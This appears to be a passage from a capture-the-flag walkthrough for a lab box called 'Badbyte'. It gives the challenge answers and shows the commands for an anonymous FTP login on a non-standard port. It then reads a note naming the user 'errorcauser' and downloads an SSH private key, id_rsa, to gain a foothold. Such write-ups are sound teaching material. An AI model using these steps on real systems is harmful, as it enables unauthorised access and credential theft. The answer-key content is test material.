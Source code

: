 ##What non-standard port is open?

Answer: `30024`

##What service is running on the non-standard port?

Answer: `ftp`

# Foothold

## What username do we find during the enumeration process?

The FTP service allows anonymous connection:

~~~
kali@kali:/data/Badbyte$ ftp 10.10.11.45 30024
Connected to 10.10.11.45.
220 (vsFTPd 3.0.3)
Name (10.10.11.45:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
~~~

Listing the files will reveal 2 files:

~~~
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Mar 23 20:09 .
drwxr-xr-x    2 ftp      ftp          4096 Mar 23 20:09 ..
-rw-r--r--    1 ftp      ftp          1743 Mar 23 20:03 id_rsa
-rw-r--r--    1 ftp      ftp            78 Mar 23 20:09 note.txt
226 Directory send OK.
~~~

The txt file is a note that discloses a username: `errorcauser`.

~~~
ftp> get note.txt -
remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (78 bytes).
I always forget my password. Just let me store an ssh key here.
- errorcauser
226 Transfer complete.
78 bytes received in 0.00 secs (72.6831 kB/s)
~~~

We'll download the `id_rsa` file as it is likely a SSH private key.

~~~
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
226 Transfer complete.
1743 bytes received in 0.00 secs (803.2791 kB/s)
ftp> exit
221 Goodbye.
~~~
